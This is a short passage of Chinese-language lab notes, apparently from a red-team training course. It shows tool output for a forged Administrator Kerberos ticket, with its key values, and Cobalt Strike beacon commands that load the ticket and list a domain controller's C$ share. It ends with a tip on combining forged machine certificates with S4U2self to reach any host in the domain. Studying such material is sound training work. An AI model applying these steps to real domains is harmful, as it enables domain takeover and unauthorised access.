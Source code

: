 ```

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  Administrator
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  3/1/2022 2:22:55 PM
  EndTime                  :  3/2/2022 12:22:55 AM
  RenewTill                :  3/8/2022 2:22:55 PM
  Flags                    :  name-canonicalize, pre-authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  WVE8rl7BfHlOdAPGq7cjJw==
  ASREP (key)              :  5681DDB25CFF9F80C65E4976DB23B0B7
```

把tgt导入到当前session
```
beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\dc-1-tgt.kirbi

beacon> ls \\dc-1.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2022 11:20:17   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:55:20   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/25/2022 12:10:08   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     01/20/2022 15:50:53   Shares
          dir     02/19/2021 10:18:17   System Volume Information
          dir     05/15/2021 16:48:31   Users
          dir     03/01/2022 14:06:29   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/01/2022 10:13:44   pagefile.sys
```

**我们不仅限于伪造用户证书，我们也可以对机器做同样的事情。将此与 S4U2self 技巧相结合，以获得对域中任何机器或服务的访问权限。**